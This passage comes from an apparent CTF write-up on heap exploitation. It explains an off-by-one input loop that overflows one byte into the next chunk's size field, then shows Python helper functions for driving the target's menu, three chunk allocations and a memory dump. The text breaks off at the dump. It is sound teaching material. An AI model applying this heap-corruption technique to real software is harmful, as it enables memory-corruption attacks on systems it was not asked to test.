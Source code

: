 ### One byte overflow -> many bytes overflow

Then, we're able to input content for our chunk (again, pseudo-code):
```
i = 0
input = read_one_byte()
while i <= chosenSize and (input not in ["\0", "\n"]):
    chunk[i] = input
    input = read_one_byte()
    i++
```
As you can see, we have an off-by-one error here, allowing us to overflow a single byte into the next chunk! This is great, because this means we can overwrite a chunk's `size` from `0x101` to `0x181` and move on from there.

To demonstrate, let's use this:

```python
def add(size, data):
    p.sendlineafter("> ", "M")
    p.sendlineafter("> ", str(size))
    p.sendlineafter("> ", data)

def free(index):
    p.sendlineafter("> ", "F")
    p.sendlineafter("> ", str(index))

def show(index):
    p.sendlineafter("> ", "S")
    p.sendlineafter("> ", str(index))
```

First off, we malloc three chunks:
```python
add(0xf8, "AAAA") #A
add(0xf8, "BBBB") #B
add(0xf8, "CCCC") #C
```

```
0x555555559250:	0x0000000000000000	0x0000000000000101 [A]
0x555555559260:	0x0000000041414141	0x0000000000000000
0x555555559270:	0x0000000000000000	0x0000000000000000
0x555555559280:	0x0000000000000000	0x0000000000000000
0x555555559290:	0x0000000000000000	0x0000000000000000
0x5555555592a0:	0x0000000000000000	0x0000000000000000
0x5555555592b0:	0x0000000000000000	0x0000000000000000
0x5555555592c0:	0x0000000000000000	0x0000000000000000
0x5555555592d0:	0x0000000000000000	0x0000000000000000
0x5555555592e0:	0x0000000000000000	0x0000000000000000
0x5555555592f0:	0x0000000000000000	0x0000000000000000
0x555555559300:	0x0000000000000000	0x0000000000000000
0x555555559310:	0x0000000000000000	0x0000000000000000
0x555555559320:	0x0000000000000000	0x0000000000000000
0x555555559330:	0x0000000000000000	0x0000000000000000
0x555555559340:	0x0000000000000000	0x0000000000000000
0x555555559350:	0x0000000000000000	0x0000000000000101 [B]
0x555555559360:	0x0000000042424242	0x0000000000000000
0x555555559370:	0x0000000000000000	0x0000000000000000
0x555555559380:	0x0000000000000000	0x0000000000000000
0x555555559390:	0x0000000000000000	0x0000000000000000
0x5555555593a0:	0x0000000000000000	0x0000000000000000
0x5555555593b0:	0x0000000000000000	0x0000000000000000
0x5555555593c0:	0x0000000000000000	0x0000000000000000
0x5555555593d0:	0x0000000000000000	0x0000000000000000
0x5555555593e0:	0x0000000000000000	0x0000000000000000
```